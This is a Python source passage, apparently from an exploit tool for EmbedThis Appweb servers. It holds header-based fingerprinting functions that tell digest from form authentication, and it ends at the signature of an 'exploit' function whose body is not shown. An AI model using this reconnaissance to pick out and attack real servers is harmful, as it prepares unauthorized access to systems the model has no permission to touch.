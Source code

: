 ```python

def test_digest(r):
    auth = ["realm", "domain", "qop", "nonce", "opaque", "algorithm", "stale", "MD5", "FALSE", "Digest"]
    wwwauthenticate = r.headers.get('WWW-Authenticate')

    if wwwauthenticate is None:
        return False

    for k in auth:
        if k not in wwwauthenticate:
            return False

    return True


def test_form(r):
    """ extremely shoddy recognition, expect false positives """

    auth = [("X-XSS-Protection", "1; mode=block"), ("X-Content-Type-Options", "nosniff"), ("ETag", None), ("Date", None)]
    potential_auth = [("Last Modified", ""), ("X-Frame-Options", "SAMEORIGIN"), ("Accept-Ranges", "bytes"), ("Content-Type", "text/html")]

    if r.headers.get("WWW-Authenticate") is not None:
        return False

    for k, v in auth:
        rv = r.headers.get(k)
        if not rv:
            return False
        if v is not None and v != rv:
            return False

    potential_count = 0
    for k, v in potential_auth:
        rv = r.headers.get(k)
        if rv and v != "" and v == rv:
            potential_count += 1

    print("[+] Optional matchings: {}/{}".format(potential_count, len(potential_auth)))
    return True


def test(url):
    """ Newer EmbedThis HTTP Library/Appweb versions do not advertise their presence in headers, sometimes might be proxied by nginx/apache, we can only look for a default headers configuration """

    r = requests.get(url)

    # EmbedThis GoAhead uses a similar headers configuration, let's skip it explicitly
    serv = r.headers.get("Server")
    if serv and "GoAhead" in serv:
        return False

    if test_digest(r):
        return "digest"
    elif test_form(r):
        return "form"
    return None


def exploit(url, username="joshua", authtype="digest"):
```
